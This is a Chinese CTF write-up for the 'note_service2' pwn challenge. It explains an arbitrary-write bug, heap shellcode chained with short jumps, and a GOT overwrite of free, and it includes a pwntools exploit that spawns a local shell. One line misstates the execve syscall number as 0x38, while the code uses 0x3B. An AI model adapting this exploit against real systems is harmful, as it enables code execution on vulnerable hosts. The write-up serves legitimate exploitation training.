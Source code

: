 # note_service2


## 涉及知识

+ 堆shellcode执行
+ shellcode编写

<!--more-->

# 程序分析

## 保护机制

![1.png](https://i.loli.net/2020/05/20/1GVSoTBvUsYJNbh.png)

64位程序，NX保护未开启，堆栈可以代码执行。

## 程序漏洞分析

IDA打开程序，功能十分简单，只有添加和删除两个功能。

添加函数中，由于没有对index做出限制，所以存在修改任意地址内容漏洞。添加的内容，由malloc分配，最大8个字节，并且最后一个字节会被清零。由于堆段有代码执行权限，我们可以在堆段中构造我们的shellcode，再利用任意地址修改，将一个got函数的地址修改为我们shellcode所在地址。

但是由于每次malloc只能分配8个字节，所以编写shellcode时，我们可以利用jmp来跳转。

![1.png](https://i.loli.net/2020/05/20/aXHQvkDVEOeIBZr.png)

![2.png](https://i.loli.net/2020/05/20/cwVfCzrJk4pYKHv.png)

在IDA中观察发现，jmp对应\xEB。从B8跳转到D1之间有0x19，但在十六进制代码中，是0x17，所以我们可以知道，在jmp的跳转数值中，其跳转的值是目标地址减原始地址再减2。

我们读入的字节是7个字节(第8个字节程序自动补0)，如果将jmp放在最后两个字节，那么可以计算得到，其需要跳转的值为0x19。


我们的shellcode利用syscall来使用，其需要的步骤为(64位)：

+ mov rdi,xxx（/bin/sh的地址）

+ mov rsi,0

+ mov rdx,0

+ mov eax,0x3b		0x38为64位程序execv调用号

+ syscall

对于第一个条件，如果我们将free修改为第二条指令的地址，第一个malloc填的值是/bin/sh，当我们free掉第一个时，就会将该堆的地址作为参数传入rdi。

# EXP

````python
from pwn import *
context.arch='amd64'
sh=process('./xctf')
def add(index,content):
	sh.sendlineafter('your choice>> ','1')
	sh.sendlineafter('index:',str(index))
	sh.sendlineafter('size:','8')
	sh.sendlineafter('content',content)

def delt(index):
	sh.sendlineafter('your choice>> ','4')
	sh.sendlineafter('index:',str(index))

code=[asm('xor rsi,rsi'),asm('xor rdx,rdx'),asm('mov eax,0x3B'),asm('syscall')]
free_index=(0x202018-0x2020a0)/8
#for c in code:
#	print len(c)

add(0,'/bin/sh')
add(free_index,code[0]+'\x90\x90\xEB\x19')
add(1,code[1]+'\x90\x90\xEB\x19')
add(2,code[2]+'\xEB\x19')
add(3,code[3])

delt(0)

sh.interactive()
````

## 反思

+ 由于可供编写shellcode的空间有限，在编写时可以将一些占用字节长的代码替换成相同效果但占用少的代码。如:将mov rsi,0 替换为 xor rsi,rsi。rax替换成eax

+ 堆中如果想改变程序的执行流程，一般都是通过修改函数的got表来实现。比如这道题，将free修改为堆中地址，进而在调用free函数时，把控制流劫持到堆栈中

### 参考

[CSDN](https://blog.csdn.net/getsum/article/details/103128511)
